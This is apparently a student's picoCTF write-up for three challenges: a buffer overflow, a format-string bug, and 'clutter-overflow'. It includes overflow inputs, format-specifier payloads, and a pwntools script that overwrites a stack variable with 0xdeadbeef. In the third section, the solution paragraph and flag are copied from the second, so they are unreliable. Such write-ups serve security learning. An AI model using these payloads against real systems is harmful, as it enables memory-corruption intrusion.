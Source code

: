 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:

Here, as the name suggests, we need to overflow. In the code, the size of the array was 16. So I first opened my Ubuntu and entered 'nc saturn.picoctf.net 60751' and input anything more than 16. I then got the flag.

```
ayush@LAPTOP-FR2LS0D1:~$ nc saturn.picoctf.net 60751
Input: aabbccddeeffgghhii
The program will exit now

ayush@LAPTOP-FR2LS0D1:~$ nc saturn.picoctf.net 60751
Input: iiiiiiiiiiiiiiiiiiii
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- I have learnt the concept of overflow and its correct usage to retrieve the flag.

## Resources:

play.picoctf.org


# 2. format string 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 56467

## Solution:

Here in this challenge, we deal with format specifiers. I first executed nc mimas.picoctf.net 56467 in ubuntu. I then chose the options with specific format specifiers to retrieve the flags. We could also do trial and error to retrieve the flag.

```
ayush@LAPTOP-FR2LS0D1:~$ nc mimas.picoctf.net 58233
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Concepts learnt:

- I have learnt the use of format specifiers.

## Resources:

play.picoctf.org

# 3. clutter-overflow

Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution:

Here in this challenge, we deal with format specifiers. I first executed nc mimas.picoctf.net 56467 in ubuntu. I then chose the options with specific format specifiers to retrieve the flags. We could also do trial and error to retrieve the flag.

```
My room is so cluttered...
What do you see?
123456
code == 0x0
code != 0xdeadbeef :(

My room is so cluttered...
What do you see?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaqwert
code == 0x7472657771
code != 0xdeadbeef :(

from pwn import *

nc_connection = remote('mars.picoctf.net', 31890)

limit = b'A' * 264
value_code = p64(0xdeadbeef)
final_input = limit + value_code

log.info("Receiving information")
nc_connection.recvuntil(b'What do you see?')

log.info("Sending the input")
nc_connection.sendline(final_input)

log.success("output sent.")
nc_connection.interactive()
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Concepts learnt:

so one of the main vulnerabilities in this file is the gets commands which takes the input of the clutter and even in the manual of gets the biggest bug is that it takes more input than the required or designed size and can lead to overflow so first i try out by typing random characters and the code always prints out 0 as initiated.
so to understand this more i tried exploring stack as it was one aspect (more in concepts) where the variables are stored so first code is initiated so the bottom part goes to code of 8 bytes followed by the character array clutter which holds 256 bytes and when we input more than 256 bytes like seen in the terminal prompt below the code value is the value of characters of ascii converted to hexa decimal in the reverse order so now our goal is to use this and make the value of code equal to deadbeef.
so now at first i typed out 256 a's and saw that the python code value returned 0 and the same happend for 264 characters as a well so then after some searching i searched up learn about some form of cover which is of 8 bytes and when i typed 264 a's and random characters and observed that the ascii value of the characters was converted to hex and printed in the reverse order but for us to make code equal to deadbeaf.
i spent researching about pwn tools and understood they are tools that are used in ctfs so then i prepared a script using resources where i read the message printed by the server and then sent an input which consists of 264 a's and then deadbeef encoded in the raw byte form which eventually prints the flag.

## Resources:

play.picoctf.org




